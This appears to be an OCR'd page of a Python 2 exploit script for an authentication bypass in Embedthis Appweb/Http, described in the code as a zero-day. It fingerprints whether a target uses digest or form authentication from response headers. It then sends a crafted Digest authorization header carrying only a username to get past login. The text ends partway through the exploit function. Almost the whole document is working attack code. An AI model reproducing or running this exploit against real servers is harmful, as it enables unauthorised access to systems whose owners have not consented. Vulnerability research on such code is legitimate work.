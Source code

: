 **Exploit**<br>
```python
import sys
import requests
import argparse
print """----------------------------------------------------------------
Embedthis Appweb/Http Zero-Day Form/Digest Authentication Bypass
----------------------------------------------------------------
"""
def test_digest(r):
    auth = ["realm", "domain", "qop", "nonce", "opaque", "algorithm", "stale", "MD5", "FALSE", "Digest"]
    wwwauthenticate = r.headers.get('WWW-Authenticate')
    if wwwauthenticate is None:
        return False
    for k in auth:
        if k not in wwwauthenticate:
            return False
    return True
def test_form(r):
    """ extremely shoddy recognition, expect false positives """
    auth = [("X-XSS-Protection", "1; mode=block"), ("X-Content-Type-Options", "nosniff"), ("ETag", None), ("Date", None)]
    potential_auth = [("Last Modified", ""), ("X-Frame-Options", "SAMEORIGIN"), ("Accept-Ranges", "bytes"), ("Content-Type", "text/html")]
    if r.headers.get("WWW-Authenticate") is not None:
        return False
    for k, v in auth:
        rv = r.headers.get(k)
        if not rv:
            return False
        if v is not None and v != rv:
            return False
    potential_count = 0
    for k, v in potential_auth:
        rv = r.headers.get(k)
        if rv and v != "" and v == rv:
            potential_count += 1
    print "[+] Optional matchings: {}/{}".format(potential_count, len(potential_auth))
    return True
def test(url):
    """ Newer EmbedThis HTTP Library/Appweb versions do not advertise their presence in headers, sometimes might be proxied by nginx/apache, we can only look for a default headers configuration """
    r = requests.get(url)
    # EmbedThis GoAhead uses a similar headers configuration, let's skip it explicitly
    serv = r.headers.get("Server")
    if serv and "GoAhead" in serv:
        return False
    if test_digest(r):
        return "digest"
    elif test_form(r):
        return "form"
    return None
def exploit(url, username="joshua", authtype="digest"):
    payload = { "username": username }
    headers = {
        "authorization": "Digest username={}".format(username),
        "user-agent": "TruelBot",
        "content-type": "application/x-www-form-urlencoded",
    }
    if authtype == "digest":
        r = requests.get(url, data=payload, headers=headers)
    else:
        r = requests.post(url, data=payload, headers=headers)
```